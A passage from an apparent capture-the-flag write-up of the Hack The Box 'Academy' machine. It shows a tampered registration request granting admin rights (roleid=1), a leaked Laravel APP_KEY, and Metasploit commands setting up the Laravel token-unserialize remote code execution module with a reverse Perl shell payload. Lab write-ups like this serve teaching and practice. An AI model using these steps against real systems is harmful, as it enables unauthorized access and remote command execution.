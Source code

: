 Becomes

>uid=rockadmin&password=thanksForReading&confirm=rock&roleid=1

Now, let's try to login inside with the admin page again. 
It worked !

We now have access to the admin panel. Inside of it, we have a reference to a `dev-staging-01.academy.htb` subdomain. I'm gonna add that to my `hosts` file and then visit that page. 

## Foothold

Clearly, this a `Laravel` error page. Which is nice because we have a lot of informations there. I'm not gonna bother to explain every research that I made here but in this very case, the most valuable information will be the `APP_KEY`.

>APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

Very quickly, I found an exploit on Google to abuse a vulnerability inside Laravel. 

>This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.

We just to start the `msfconsole` and then, run a few commands.

{% highlight text %}
sudo msfconsole
{% endhighlight %}

{% highlight sh %}
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
msf6 exploit(unix/http/laravel_token_unserialize_exec) > options
{% endhighlight %}

{% highlight text %}
Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   APP_KEY                     no        The base64 encoded APP_KEY string from the .env file
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port\[...\]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:\<path\>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to target webapp
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
{% endhighlight %}
